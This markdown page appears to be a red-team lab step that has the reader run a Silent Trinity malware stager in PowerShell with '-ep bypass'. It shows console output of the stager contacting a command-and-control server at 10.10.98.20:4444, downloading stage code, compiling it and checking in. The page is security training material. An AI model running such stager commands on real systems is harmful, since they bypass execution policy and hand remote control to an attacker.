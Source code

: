 ### Powershell
Launch Windows PowerShell from the Windows Start Menu.
See Lab [L0250][L0250] for instruction on launching PowerShell.

![][Div2]

### Execution of HTTPS Stager
In PowerShell, run the following command to execute the malware stager for Silent Trinity.

![PowershellInput][PowerShellInput]
```powershell
powershell -ep bypass
Import-Module .\Downloads\stager.ps1
```
![PowershellOutput][PowerShellOutput]

```powershell
C:\Users\itaadmin.labs> powershell -ep bypass
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Try the new cross-platform PowerShell https://aka.ms/pscore6

PS C:\Users\taadmin.labs> Import-Module .\Downloads\stager.ps1
[+] URLS: https://10.10.98.20:4444
[*] Attempting HTTP POST to https://10.10.98.20:4444/162f4b13-6181-4d7f-988f-4da6c43fc307
[-] Attempt #1
[*] Attempting HTTP GET to https://10.10.98.20:4444/162f4b13-6181-4d7f-988f-4da6c43fc307
[-] Attempt #1
[*] Downloaded 569104 bytes
        [-] 'Boo.Lang.Compiler.dll' was required...
        [+] 'Boo.Lang.Compiler.dll' loaded...
        [-] 'Boo.Lang.dll' was required...
        [+] 'Boo.Lang.dll' loaded...

[*] Compiling Stage Code
        [-] 'Boo.Lang.Extensions.dll' was required...
        [+] 'Boo.Lang.Extensions.dll' loaded...
        [-] 'System.dll' was required...
        [+] 'System.dll' loaded...
        [-] 'System.Core.dll' was required...
        [+] 'System.Core.dll' loaded...
        [-] 'System.Web.Extensions.dll' was required...
        [+] 'System.Web.Extensions.dll' loaded...
        [-] 'Boo.Lang.Parser.dll' was required...
        [+] 'Boo.Lang.Parser.dll' loaded...
        [-] 'Microsoft.VisualBasic.Devices.dll' was required...
        [-] 'Microsoft.VisualBasic.dll' was required...
        [+] 'Microsoft.VisualBasic.dll' loaded...
[+] Compilation Successful!
[*] Executing
sYJwhAelHQ CheckIn
```
After the malware stager has been executed, continue on to the next phase of the lab.


  [L0200]: ../L0200/
  [L0250]: ../L0250/
  [L0310]: ../L0310/
  [L0311]: ../L0311/
  [L0320]: ../L0320/
  [L0330]: ../L0330/
  [L0340]: ../L0340/
  [L0350]: ../L0350/
  [L1120]: ../L1120/
  [L1130]: ../L1130/
  [L1140]: ../L1140/